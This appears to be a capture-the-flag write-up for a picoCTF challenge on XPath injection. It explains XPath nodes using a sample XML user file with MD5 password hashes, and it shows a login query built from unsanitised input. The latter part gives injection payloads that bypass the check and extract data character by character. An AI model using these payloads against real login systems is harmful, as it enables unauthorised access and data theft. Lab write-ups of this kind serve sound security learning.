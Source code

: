 http://mercury.picoctf.net:16521/

The hints shows that it is about xpath.

Learning what is XPath:

https://matthung0807.blogspot.com/2017/12/xpath.html

https://zh.wikipedia.org/wiki/XPath

https://jiang-niao.github.io/2020/04/24/%E4%BB%8Ectf%E9%A2%98%E7%9B%AE%E4%B8%AD%E5%AD%A6%E4%B9%A0xpath%E6%B3%A8%E5%85%A5/




This document is talking about 'what is xpath, and how to use it'.
If you want to understand how to get the flag, try to read to code xpathctf.py

XPath Example:
```
<?xml version="1.0" encoding="UTF-8"?> 
<root>
  <users>
    <user>
      <id>1</id>
      <username>admin</username>
      <password type='md5'>e10adc3949ba59abbe56e057f20f883e</password>
    </user>
    <user>
      <id>2</id>
      <username>jiangniao</username>
      <password type='md5'>099ebea48ea9666a7da2177267983138</password>
    </user>
    <user>
      <id>3</id>
      <username>skbl</username>
      <password type='md5'>e995e9ba0c8ec5c9ce392b86bfece354</password>
    </user>
  </users>
</root>

```

The type of node is:

```
<?xml version="1.0" encoding="UTF-8"?>: processing-instruction node
<root>: root element node
<id>: element node
type='md5': attribute node
jiangniao: text node
```
How to use xpath? this is the sample:

```
/root/users/user[username/text()='".$name."' and password/text()='".$pwd."']
``` 

If you want to list all of the text nodes, you can use wildcards "//\*", and [starts-with(text(),'a')] meas that checking there has a text node start from 'a' or not.

```
//*[starts-with(text(),'a')]
```

You can use this payload to test, is it have xpath vulnerability:

```
' or '1' or '
admin' or '1' or '
```


So, the final payload is :

```
' or //*[starts-with(text(),'a')] or 'a'='b
```

If you input this payload in username, the xpath search will like this:

```
/root/users/user[username/text()='' or //*[starts-with(text(),'a')] or 'a'='b' and password/text()='".$pwd."']
```

The priority of operator is:

<img width="300" alt="截圖 2022-03-09 下午2 57 50" src="https://user-images.githubusercontent.com/37798944/157388893-df93956d-ca48-44c7-a866-04e6ca6b198e.png">








